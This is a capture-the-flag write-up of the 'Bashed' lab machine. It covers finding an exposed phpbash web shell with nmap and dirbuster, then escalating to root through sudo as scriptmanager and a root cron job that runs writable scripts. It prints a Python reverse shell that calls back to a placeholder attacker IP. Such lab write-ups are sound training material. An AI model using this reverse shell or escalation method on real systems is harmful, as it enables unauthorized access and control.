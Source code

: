 Bashed
================

![header](header.png)

Solution
==============

User
---------
First, like always, we do a nmap scan and discovered port 80 is open.
Navigating to the website, we got a simple webpage showing something about phpbash

![webpage](webpage.png)

Phpbash is particularly interesting because it looks like we're given a free shell via that application.
Now we do a directory enumeration using dirbuster.

![dirbuster](dirbuster.png)

We got a directory `/dev/phpbash.php` ! Navigating to that directory, we got the phpbash application running right there.

![phpbash](phpbash.png)

Looks like we can already read the user flag...

![user](user.png)

Root
------------
Let's see if we can escalate our privilege using `sudo su`

![sudo](sudo.png)

No we can't, but we can sudo as scriptmanager as seen in the screenshot.

Grab a python reverse shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/ and we can spawn a reverse shell.

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Now we can `sudo -u scriptmanager /bin/bash` to obtain bash shell, we've escalated from www-data to scriptmanager!

From here I did a lot of enumeration to find out what's going on, and finally ended up with something interesting:

![enumeration](enumeration.png)

We can see a cron job runnning, but we were unable to view the content of the cron job just yet.

However, there's another interesting directory sitting right at `/` and that's the `/scripts` directory

We can see the content of that directory:

![enum2](enum2.png)

From here we can see that `test.py` is opening up a new file `test.txt` and writing something to it.

What's interesting is that the `test.txt` file belongs to root! It looks like the script is being executed as root privilege!

Now we could use that script to gain a reverse shell

![rootshell](rootshell.png)

And there is our root flag!

Well just out of interest we could see the cron jobs being run is basically every script inside the scripts directory

![afterwards](afterwards.png)
